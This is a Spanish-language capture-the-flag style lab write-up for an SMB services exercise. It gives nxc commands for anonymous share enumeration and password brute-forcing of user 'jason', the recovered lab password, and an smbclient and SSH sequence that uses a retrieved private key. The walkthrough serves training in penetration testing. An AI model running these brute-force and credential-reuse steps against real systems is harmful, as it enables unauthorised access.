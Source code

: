 # Common Services - SMB
Nos dan un target y nos plantean las siguientes preguntas: 

-  What is the name of the shared folder with READ permissions?
	
	```bash
	nxc smb $target --shares -u '' -p ''
	```

- What is the password for the username "jason"?
	
	Nos proporcionan una lista de usuarios y contraseñas, por lo que hacemos fuerza bruta con el usuario jason para `smb` con nxc nuevamente: 

	```
	nxc smb $target -u 'jason' -p pws.list
	```

	Este comando no funciona porque no hemos especificado el dominio. Funcionaría cualquiera de estas dos opciones (con alguna herramienta tipo enum4linux podríamos ver que el dominio es `WORKGROUP`): 

	```bash
	 nxc smb $target -u 'jason' -p smb/bruteforce/pws.list --local-auth 
	 nxc smb $target -u 'jason' -p smb/bruteforce/pws.list -d WORKGROUP
	```

	Encontrando como contraseña `34c8zuNBo91!@28Bszh`

-  Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

	En este caso nos podemos conectar a SMB con las credenciales obtenidas

	```bash
	smbclient -U jason //$target/GGJ
	```

	Lo que nos permite descargar un archivo `id_rsa`. Lo descargamos y nos conectamos por ssh 
	
	```
	ssh -i id_rsa jason@$target
	```

	
	